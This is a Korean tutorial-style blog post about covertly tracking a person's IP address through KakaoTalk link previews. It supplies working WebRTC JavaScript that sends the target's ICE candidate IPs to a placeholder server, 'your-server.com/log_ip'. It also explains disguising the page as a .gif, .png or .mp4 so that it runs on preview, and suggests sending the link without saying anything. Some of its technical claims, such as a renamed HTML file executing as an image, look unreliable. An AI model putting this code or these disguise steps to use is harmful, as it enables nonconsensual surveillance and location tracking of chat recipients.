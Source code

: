 ```yaml
---
title: "사진 한 장으로 아이피 추적하기3- webrtc"
categories: [sec]

date: 2025-04-02
---
```

## **원리**

1. **카카오톡 미리보기 기능을 활용** → 상대방이 메시지를 클릭하지 않아도 미리보기로 콘텐츠를 로드.
2. **WebRTC 코드가 포함된 미디어 파일을 서버에서 제공** → 상대방이 보는 순간 WebRTC 실행.
3. **WebRTC를 이용해 상대방의 IP 주소를 서버로 전송.**

---

## **🚀 실전 방법**

### ✅ **1단계: WebRTC IP 추적 코드 제작**

먼저, 상대방이 이미지를 보는 순간 WebRTC IP 추적이 실행되도록 **HTML 페이지**를 만든다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));

            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://your-server.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Loading..." width="1" height="1">
</body>
</html>

```

✅ **설명**

- 상대방이 **이 HTML 페이지를 미리보기로 보게 되면 WebRTC가 실행되어 IP가 추출됨**.
- `fetch("https://your-server.com/log_ip")` 부분에 실제로 IP를 기록할 서버를 넣어야 함.

---

### ✅ **2단계: HTML을 미디어 파일로 위장**

이 HTML을 직접 보낼 수 없으므로, 카카오톡 미리보기에서 자동으로 로드되도록 변형해야 해.

### **🔹 방법 1: GIF 또는 이미지로 위장**

1. **HTML 파일을 이미지처럼 보이도록 변환**
    - `.html`을 `.png`, `.jpg`, `.gif` 등의 확장자로 변경하면 브라우저가 실행할 가능성이 있음.
    - `https://your-server.com/image.gif` URL을 만들고, HTML 대신 GIF처럼 동작하도록 설정.
2. **카카오톡에서 자동 미리보기가 활성화되는지 확인.**

### **🔹 방법 2: 동영상 파일로 위장**

1. `.mp4` 또는 `.mov` 파일을 만들고, 동영상 썸네일을 WebRTC 실행 코드가 포함된 웹 페이지로 연결.
2. 상대방이 채팅방에서 미리보기로 보는 순간 WebRTC 실행.

---

### ✅ **3단계: 카카오톡에서 미리보기가 자동 실행되는지 확인**

카카오톡에서 특정 링크는 미리보기를 자동으로 생성하는데, 이를 활용해야 함.

### **🔍 카카오톡에서 자동 미리보기 생성되는 링크 유형**

| 유형 | 미리보기 자동 실행 가능 여부 |
| --- | --- |
| 일반 HTML | ❌ (클릭 필요) |
| `.png` / `.jpg` (이미지) | ✅ (자동 실행 가능) |
| `.gif` (움직이는 이미지) | ✅ (자동 실행 가능) |
| `.mp4` / `.mov` (동영상) | ✅ (자동 실행 가능) |

💡 **즉, 상대방이 자동으로 미리보기를 보게 하려면 `.gif`, `.mp4`, `.png` 등의 파일로 위장하는 것이 좋음.**

---

## **🔥 실전 시나리오**

1. **서버 설정:**
    - `https://your-server.com/image.gif` 같은 URL에 WebRTC 추적 코드가 포함된 GIF를 업로드.
    - GIF를 미리보는 순간 WebRTC가 실행되도록 설정.
2. **카카오톡에서 전송:**
    
    ```
    
    https://your-server.com/image.gif
    
    ```
    
    - 상대방이 채팅방에서 미리보기로 보면 WebRTC 실행됨.
    
    <aside>
    💡
    
    냅다 아무 말 없이 보내는게 효과적일 것 같음
    
    </aside>
    
3. **IP 수집 확인:**
    - `your-server.com/log_ip`에서 IP 정보를 확인.

---

## **⚠️ 주의할 점**

- **카카오톡에서 미리보기 기능이 업데이트되면 일부 방법이 막힐 수 있음.**
- **상대방이 VPN을 사용하면 실제 IP가 아닌 VPN 서버 IP가 잡힐 가능성이 있음.**
- **법적인 문제를 고려해야 함. 상대방의 동의 없이 정보를 수집하는 것은 법적 책임이 있을 수 있음.**

---

## **💡 결론**

✅ **가장 효과적인 방법**:

- `.gif` 또는 `.mp4` 형식으로 WebRTC 실행 코드를 숨긴 후, 카카오톡에서 자동 미리보기 실행 유도.
- 상대방이 클릭하지 않아도 채팅방에서 **파일을 보는 순간 WebRTC 실행 가능**.